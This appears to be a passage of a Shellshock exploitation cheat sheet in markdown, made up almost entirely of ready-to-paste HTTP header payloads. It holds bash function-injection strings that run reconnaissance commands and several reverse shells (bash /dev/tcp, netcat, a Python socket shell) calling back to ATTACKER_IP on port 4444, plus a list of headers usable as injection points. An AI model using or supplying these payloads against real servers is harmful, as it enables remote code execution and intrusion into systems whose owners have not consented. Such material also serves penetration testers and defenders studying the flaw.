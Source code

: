### Network Reconnaissance
```bash
# Network configuration
User-Agent: () { :; }; echo; echo; /bin/bash -c 'ifconfig'

# Network connections
User-Agent: () { :; }; echo; echo; /bin/bash -c 'netstat -antup'

# Routing table
User-Agent: () { :; }; echo; echo; /bin/bash -c 'route -n'
```

---

## 🔄 Reverse Shell Techniques

### Bash Reverse Shell
```bash
# Basic reverse shell
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

# URL-encoded reverse shell
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash%20-i%20%3E%26%20/dev/tcp/ATTACKER_IP/4444%200%3E%261'
```

### Netcat Reverse Shell
```bash
# Traditional netcat
User-Agent: () { :; }; echo; echo; /bin/bash -c 'nc ATTACKER_IP 4444 -e /bin/bash'

# Netcat without -e flag
User-Agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f'
```

### Python Reverse Shell
```bash
# Python-based reverse shell
User-Agent: () { :; }; echo; echo; /bin/bash -c 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"'
```

---

## 🛡️ Alternative HTTP Headers

Shellshock can be exploited through various HTTP headers that become environment variables:

### Common Vulnerable Headers
```http
User-Agent: () { :; }; echo; echo; /bin/bash -c 'command'
Referer: () { :; }; echo; echo; /bin/bash -c 'command'  
Cookie: () { :; }; echo; echo; /bin/bash -c 'command'
Accept: () { :; }; echo; echo; /bin/bash -c 'command'
Accept-Language: () { :; }; echo; echo; /bin/bash -c 'command'
X-Forwarded-For: () { :; }; echo; echo; /bin/bash -c 'command'
```

